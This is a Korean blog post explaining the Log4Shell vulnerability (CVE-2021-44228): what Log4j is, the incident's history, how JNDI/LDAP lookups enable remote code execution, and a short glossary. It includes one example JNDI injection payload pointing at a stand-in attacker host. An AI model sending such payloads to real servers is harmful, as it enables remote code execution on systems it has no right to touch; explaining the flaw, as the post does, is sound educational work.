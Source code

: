 ```yaml
---
layout: post
title: Log4Shell
description: >
  본 게시글은 지난 2021년 12월에 처음 발견된 Log4j 취약점에 대해 필자가 이해하고자 작성하게 된 글이다.
sitemap: false
hide_last_modified: true
---
```


---

### Log4j란?

![image](https://user-images.githubusercontent.com/68031450/269542834-0830f0bc-70d5-4714-bde2-669799a7b5f2.png)

&nbsp; `Log4j`는 Apache 소프트웨어 재단에서 개발한 자바 어플리케이션에서 주로 사용하는 로깅 라이브러리이다. 로그 메시지를 생성하고 관리하는 기능을 제공하여 개발자가 어플리케이션의 작동 및 문제 해결에 도움을 조눈 로그를 기록하고 분석하는 데 사용된다.

### Log4Shell(Log4j 취약점)?

&nbsp; 2021년 12월, 컴퓨터 인터넷 역사 상 최악의 보안 결함 사건으로 꼽히는 Log4j 취약점이 발견되었다. 애플, 텐센트, 아마존, 테슬라, 클라우드플레어, 스팀, 마인크래프트, 구글, 링크드인, 깃허브 등 수많은 기업들이 해당 취약점에 노출되어 피해를 입었다.<br>
&nbsp; `Log4Shell` 혹은 `CVE-2021-44228`라고도 불리며 **제로 데이 임의 코드 실행 취약점**이다. 2021년 11월 24일, 알리바바 클라우드 보안팀에 의해 처음 발견되어 아파치에 전달되었고, 12월 9일에 대중들에게 공개되었다.<br><br>
&nbsp; 이 취약점은 `Log4j`의 특징인 LDAP와 JNDI 요청을 검사하지 않는 Log4j의 특징을 이용하여 공격자가 임의로 자바 코드를 서버 혹은 다른 사용자 컴퓨터에서 실행할 수 있게 한다. Log4j는 `Lookups`라는 기능을 통해 임의의 위치에서 Log4j 구성에 값을 추가하는 방법을 제공한다. 즉 사용자의 입력값이 포함된 로깅을 하게 된다.<br>
&nbsp; 공격자가 서버에 `${jndi:ldap://atacker.com/a}`과 같은 요청을 보내면 Log4j는 이를 로그에 넣고, 해당 URL을 불러오게 된다. 그렇게 되면 공격을 당하는 대상(서버 등)은 `Lookups` 기능을 활용하여 해당 URL에 호스팅되어 있는 소스 코드를 실행하게 하는 것이다.<br>
&nbsp; 현재는 최신 버전의 경우 해당 취약점이 해결된 상태이다.

### 용어 정리

#### 제로 데이 취약점

&nbsp; 특정 소프트웨어의 아직 공표되지 않은, 혹은 공표되었으나 아직까지 패치되지 않은, 그러니까 개발자가 인지하지 못한 보안 취약점을 이용한 해킹을 의미한다.

#### 임의 코드 실행

&nbsp; 공격자는 사용자로 하여금 악의적으로 제작된 콘텐츠가 포함된 웹 페이지를 열도록 유도하여 임의코드 실행 권한을 취득할 수 있도록 하는 것이다.

#### LDAP

&nbsp; TCP/IP 위에서 디렉터리 서비스를 조회하고 수정하는 응용 프로토콜이다.

#### JDNI

&nbsp; 디렉터리 서비스에서 제공하는 데이터 및 객체를 발견하고 이를 참고하기 위한 자바 API이다.

---

### Reference

- [Log4Shell](https://ko.wikipedia.org/wiki/Log4Shell)
- [Log4j](https://www.youtube.com/watch?v=kwS3twdVsko)
- [제로 데이 취약점](https://www.akamai.com/ko/glossary/what-is-zero-day-attack)
